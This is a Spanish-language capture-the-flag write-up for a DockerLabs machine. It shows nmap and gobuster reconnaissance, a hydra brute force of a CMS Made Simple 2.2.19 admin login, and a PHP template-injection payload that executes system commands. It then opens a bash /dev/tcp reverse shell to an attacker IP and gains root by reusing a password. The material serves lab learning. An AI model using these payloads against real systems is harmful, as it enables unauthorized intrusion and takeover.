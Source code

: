 ![inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/brave_screenshot_dockerlabs.es.png)


##### Hacemos un ping a la maquina:

```bash
ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.089 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.089/0.089/0.089/0.000 ms
```


##### Hacemos un escaneo con nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -sVC -vvv -n -Pn 172.17.0.2 -oN escaneo_nmap

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBG36eG906mrEH+PhkX+d0kmBBpxW4ECArmbLYCP/Q3nWm464LsDcafYElms/gd6ol5iFMM3XLdWyEQiyy/MfZDM=
|   256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL/OHCYyijgZMo6u1RkpTLxjluOVfmcqxgB3eL+iMUpp
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos el puerto 22 (SSH) y el puerto 80 (HTTP) abierto. Vamos a investigar que hay por el puerto 80.


Vemos solamente la platilla por defecto de apache. Vamos hacer algo de fuzzing web.

---

Hacemos un gobuster con los siguiente parámetros:

```bash
> gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Vemos que no nos encuentra nada pero viendo el código fuente hasta el final vemos algo que nos puede servir, veo lo siguiente:

```bash
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Vamos al navegador para usarlo y vemos que si funciona:

http://172.17.0.2/cmsms/


Nos encontramos con cms, una herramienta para poder hacer paginas web. Lo primero que debemos hacer es mirar su versión, a lo que nos encontramos esto: ***This site is powered by [CMS Made Simple](http://www.cmsmadesimple.org) version 2.2.19***

---
Buscamos en Internet algo que nos sirva, algún exploit de esta version y lo encontramos, ahora debemos hacer algunas cosas para que funcione. Vamos a hacer fuzzing de nuevo pero ahora sabiendo la existencia del cms.

```bash
> gobuster dir -u http://172.17.0.2/cmsms -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.tx 
```

/modules
/uploads          
/doc                  
/admin                
/assets               
/lib                  
/tmp

Ahora si podemos ver que nos encuentra varias cosas. Vamos a mirar en el directorio admin. Nos lleva al panel de login:


---

##### Vamos hacer un ataque de fuerza bruta al login web

Utilizamos el siguiente comando para hacerlo:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Es un clásico hydra solo con pequeños cambios. La ruta de **/cmsms/admin/login.php** la vemos en Burp en la parte de POST. sustituimos usuario y contraseña por lo que vemos en el comando y ponemos el mensaje de error que nos lanza cuando queremos entrar. Todo lo demás es igual.


Después de eso vemos que funciona y nos da la contraseña para poder entrar

---

Una vez que estamos dentro ahora si seguimos las instrucciones que encontramos sobre el exploit.

---
Hacemos tal cual todo y vemos que efectivamente funciona. Nos refleja el numero 49. Esto nos indica que es vulnerable a un **ssti (server side template injection)** ahora vamos a buscar algún payload que nos ayude con esto.
> *github payloads all the things ssti*


buscando encontramos algo que nos puede ayudar 
https://github.com/capture0x/CMSMadeSimple

Usamos el payload:
```
<?php echo system('id'); ?>
```

Al ejecutarlo vemos que si es vulnerable.

---
Ahora vamos hacer una reverse shell


ponemos nuestra IP, el puerto por donde queremos ponernos en escucha y copiamos y pegamos sustituyendo la parte de 'id' por esto:

```
<?php echo system('bash -c "bash -i >& /dev/tcp/10.0.2.15/443 0>&1"'); ?>
```

Tiene unos pequeños ajustes para que funcione. Antes de ejecutarlo nos ponemos en escucha por el puerto 443 de la siguiente manera:

```
nc -lvnp 443 
```
![[lsito.png]]Listo, estamos dentro.

---

### Tratamiento de la TTY


mi ubico en la raíz
```bash
cd /
```

enter:
```bash
script /dev/null -c bash
```

enter:
```bash
pongo ctrl + z
```

enter:
```bash
stty raw -echo; fg
```

enter:
```bash
reset xterm
```

después creo dos variables de entorno que son:

```bash
export SHELL=bash
export TERM=xterm
```

y listo ya quedo, puedo usar bien clear, ctrl + c y no se pierde conexión.

---
 Una vez terminado eso intentamos reutilizar primero que nada la contraseña que ya se había usado anteriormente:**chocolate**
 y vaya sorpresa, logramos ser root.

---

